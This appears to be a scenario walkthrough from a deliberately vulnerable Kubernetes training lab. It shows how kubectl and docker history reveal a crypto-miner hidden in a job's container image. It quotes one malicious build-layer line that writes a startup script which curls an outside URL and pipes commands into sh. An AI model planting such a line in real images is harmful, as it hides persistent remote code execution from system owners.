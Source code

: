 # Analysing crypto miner container

## Scenario Information

Crypto mining has became popular with these modern infrastructure. Especially environments like Kubernetes is easy target as you might not event look what exactly the container image built upon and what it is doing with proactive monitoring. Here in this scenario, we will analyse and identify the crypto miner.

* To get started, identify all the resources/images in the Kubernetes cluster. Including Jobs.

```bash
kubectl get jobs
```

![Scenario 10 get jobs](images/sc-10-1.png)

## Scenario Solution

> Identify the all resources with in Kubernetes cluster. If possible get into details of each container image available in all the nodes with in the cluster as well

* Once we have identified the job we ran in the Kubernetes cluster, got the pod information by running following command

```bash
kubectl describe job batch-check-job
```

![Scenario 10 get job info](images/sc-10-2.png)

* Then get the pod information by running the below command

```bash
kubectl get pods --namespace default -l "job-name=batch-check-job"
```

* Then get the pod information manifest and analyse

```bash
kubectl get pod batch-check-job-xxxx -o yaml
```

![Scenario 10 get pod info](images/sc-10-3.png)

* Identified that it's running `madhuakula/k8s-goat-batch-check` docker image

* After performing analysis of this image we identified it has the mining stuff in the build time script in one of the layer

```bash
docker history --no-trunc madhuakula/k8s-goat-batch-check
```

![Scenario 10 get docker history](images/sc-10-4.png)

> `echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup     && chmod +x /usr/bin/system-startup`

## Miscellaneous

TBD
